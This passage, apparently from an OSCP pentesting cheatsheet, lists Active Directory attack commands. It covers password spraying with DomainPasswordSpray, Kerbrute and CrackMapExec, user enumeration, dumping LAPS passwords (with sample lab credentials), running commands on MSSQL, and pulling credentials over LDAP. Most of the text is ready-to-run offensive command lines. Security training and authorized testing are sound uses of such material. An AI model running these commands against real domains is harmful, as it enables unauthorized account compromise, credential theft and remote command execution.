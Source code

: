 We can do various password attacks on the Windows AD to get the user access credentials

### [PasswordSpray.ps1](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1)

It is a powershell script that tries the passwords for all users in the domain, that has to be launched inside an AD-joined machine.

```powershell
.\Spray-Passwords.ps1 -Pass <PASSWORD>
```

### [Kerbrute](https://github.com/ropnop/kerbrute)

From a Linux machine instead we can run AD password attack with Kerbrute. We can use this script also from a Window machine joined in the domain.

```shell
./kerbrute_linux_amd64 passwordspray -d <DOMAIN> domain_users.txt <PASSWORD>
```

Kerbrute can be used also to get a list of users, if the machine is vulnerable to as-rep roasting. Search for valid user without credentials with the following

```shell
kerbrute userenum -d <DOMAIN> usernames.txt
```

or

```shell
kerbrute -domain <DOMAIN> -users users.txt -dc-ip <IP>
```

### [Crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec)

[](https://github.com/sarthakpriyadarshi/OSCP-Pentesting-Cheatsheet?tab=readme-ov-file#crackmapexec)

Crackmapexec is a tool for password spraying in the Active Directory network. It can be used for example against the SMB service with

```shell
crackmapexec smb <IP> -u users -p '<PASSWORD>' -d <DOMAIN> --continue-on-success
```

List access for shares in the domain for the users in users.txt with passwords passwords.txt

```shell
crackmapexec smb <IP> -u users.txt -p passwords.txt --shares
```

Run crackmapexec through a proxy (eg chisel) and performing a **local authentication** (No Active Directory Authentication)

proxychains crackmapexec smb -u users.txt -p 'PASSWORD' --continue-on-success --local-auth

Run crackmapexec and dump [LAPS](https://www.n00py.io/2020/12/dumping-laps-passwords-from-linux/) passwords

```shell
crackmapexec ldap 192.168.219.122 -u fmcsorley -p CrabSharkJellyfish192 --kdcHost 192.168.219.122 -M laps
```

Run crackmapesec to against mssql

```shell
crackmapexec mssql -d <DOMAIN> -u <username> -p <password> -x "whoami"
```

### LDAP

First we run nmap against ldap server

```shell
nmap --script "ldap* and not brute" $ip -p 389 -v -Pn -sT <IP>
```

Then using ldapsearch we can extract credentials. The -b parameter in the ldapsearch command specifies the base DN (Distinguished Name) for the search. The DN is essentially the starting point in the LDAP directory tree from which the search will begin. Think of it as the root of your search within the  LDAP stucture. Example taken from [here](https://medium.com/@0xrave/kyoto-proving-grounds-practice-walkthrough-active-directory-820dfcff5ddd).

```shell
ldapsearch -x -h <IP> -b "dc=X,dc=Y"
```